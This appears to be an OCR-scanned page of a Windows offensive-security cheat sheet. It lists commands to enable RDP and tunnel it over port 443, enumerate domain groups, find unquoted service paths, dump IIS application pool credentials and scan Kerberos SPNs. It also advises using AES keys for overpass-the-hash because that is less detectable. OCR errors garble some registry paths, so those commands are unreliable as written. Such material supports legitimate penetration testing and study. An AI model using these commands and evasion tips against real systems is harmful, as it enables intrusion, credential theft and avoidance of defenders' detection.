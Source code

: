 ## Enable RDP

```c
C:\> reg add "HKEY LOCAL t1ACHINE\SYSTEH\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

// Tunnel RDP through 443/TCP
C:\> reg add "HKLM\System\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f
```

## Enumerating Groups

### Enumerat all domain groups

```c
// CMD
C:\> net group /domain

// PowerShell
PS C:\> ([ADSISearcher]"ObjectClass=group").FindAll()
PS C:\> ([ADSISearcher]"ObjectClass=group").FindAll() | %{ $_.Properties["samaccountname"] }
```

## Finding Unquoted Service Paths

```c
PS C:\> Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

## IIS Application Pool Credential Dumping

```c
C:\Windows\System32\inetsrv>appcmd.exe list apppool /@:*
```

## Kerberos Exploitation

Don’t use the `RC4 (NTLM)` hash for `Overpass-the-Hash`. Request your ticket with a more secure key (AES128, AES256) if they are in use (`Rubeus /asktgt /enctype:aes256`) because it is less detectable.

## Serivce Principal Name (SPN) scanning

### Get registered services for Kerberos

```c
PS C:\> setspn -Q */*
```
